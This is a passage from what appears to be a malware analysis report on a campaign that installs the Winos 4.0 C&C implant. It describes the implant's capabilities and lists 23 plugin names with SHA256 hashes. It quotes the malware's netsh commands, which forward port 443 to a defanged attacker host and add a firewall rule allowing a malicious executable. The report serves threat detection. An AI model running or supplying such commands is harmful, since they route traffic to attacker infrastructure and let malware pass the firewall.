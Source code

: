 It establishes a rule for IPv4-to-IPv4 port forwarding. Specifically, it designates port 443 as the listening port on the local machine, where incoming connections will be received. It specifies a destination address (*103.214.147.14[.]webcamcn[.]xyz*), indicating where the forwarded traffic will be directed. Additionally, it designates port 443 on the destination server as the port to which the incoming traffic will be forwarded. This configuration redirects traffic from the local machine's port 443 to the specified destination address and port.

netsh interface portproxy add v4tov4 listenport=443 connectaddress=103[.]214[.]147[.]14[.]webcamcn[.]xyz connectport=443


netsh advfirewall firewall add rule name="Safe1" dir=in action=allow program=" C:\Program Files (x86)\Common Files\Microsoft Shared\VGX\app-3.4.0\LetsPRO.exe"


Finally, the malware passes the execution to the Winos 4.0 stager in memory.

### Winos 4.0 C&C framework overview

The final payload of this attack is the Winos 4.0 implant, which is written in C++ and targets the Windows platform. Winos has features that include file management, [distributed denial of service (DDoS)](https://www.trendmicro.com/vinfo/tmr/?/us/security/news/cyber-attacks/security-101-distributed-denial-of-service-ddos-attacks) using TCP/UDP/ ICMP/HTTP, full disk search, webcam control, and screen capturing. Additionally, it supports many functionalities including process injection and microphone recording, system and service management, remote shell access, and keylogging functionalities, further enhancing its ability to control and monitor the infected system.


The Winos C&C server is equipped with 23 internal plugins, each compiled in both 32- and 64-bit versions, to execute a variety of tasks. Table 3 shows the complete list of these plugins, along with their respective SHA256 hashes:

| --- | --- | --- |
| **Simplified Chinese module names** | **Translated module names** | **SHA256 hash** |
| 播放监听.dll | Play monitor.dll | 7ed8c7ea5e2feeadb1966f53c48ab3a580f53a4d20725031d764db7e962607a9 |
| 查注册表.dll | check registry.dll | 49120dfcef430df1c90c9c370b92b969c876b9b4327d81eae720cd71fcd75b87 |
| 差异屏幕.dll | difference screen.dll | 5f7e00017b16db29fa7cba60993d7af909ef41d3fe9d3f7ca9f693c1f7ef6d37 |
| 代理映射.dll | proxy mapping.dll | 023822a8ad26f2d7330a2afa310ccf943058f2765b7cbc6975c51c144739b55f |
| 服务管理.dll | service management.dll | 3ac0afec0ce29b69d57c54663c6e4fa6fee703696069cb5b8f00783b5504cf80 |
| 高速屏幕.dll | high-speed screen.dll | bc01cf528086de6a1b231dee01c1624cf58911b171904bf7a6b08ddfba661d83 |
| 后台屏幕.dll | Background Screen.dll | 2066dd040fe020ca32e5ebfeeb4fa75094d3ac43155c83fe222f380d4940df42 |
| 急速搜索.dll | Rapid Search.dll | 5759fc938f228579fc5e64e74cee083581a975d4054deb715c0f371b66b96263 |
| 键盘记录.dll | Keylogger.dll | 976837663b25f793470f24925198b06e79a72ede014a84ba62311fadede5062f |
| 上线模块.exe (stager) | Online Module.dll | 436499efe94c7a1bfefaa84c52f8187bffb3d4d1a49de1cbc8885e7807d11b42 |
| 上线模块.dll (stager) | Online Module.dll | 5684fc4f33c168519b2fdcae59cc3be2e6db1f0b0f3718524ef57e0e7423f59d |
| 视频查看.dll | Video Viewing.dll | 7a3841a5315c01df299d8844b62dc150b1c3e5b5ebe7547c1a211349879659af |
| 视频查看.dll | Video Surveillance.dll | 7a3841a5315c01df299d8844b62dc150b1c3e5b5ebe7547c1a211349879659af |
| 文件管理.dll | File Management.dll | 5abc2006c7a3a27e033075ba881a668aba5e70797677ed2220f7ab9fb36fc927 |
| 系统管理.dll | System Management.dll | 827ed4f36ea7032395bfa35da54c6e9d06d6633aa7396792e8511adf366c1fcc |
| 远程交谈.dll | Remote Communication.dll | c61c8ded2a9481c2e50b4872c8f7bcd8ecc33997a6004e62aa06b60742f54e57 |
| 远程终端.dll | Remote Terminal.dll | 409e09ac0fcf7d39044ef0b3eb798aea6dc0650e5214056760694c1340fc8488 |
| 注入管理.dll | Injection management.dll | ecf5394d78392b11daec1016c6b447f9da7eae69f7702ecf8c4d1d3f69e3fe64 |
| 娱乐屏幕.dll | Entertainment Screen.dll | 6ce947e21128687ed37f247e297f29609251deed934b7b5722d27f4a1f72a90e |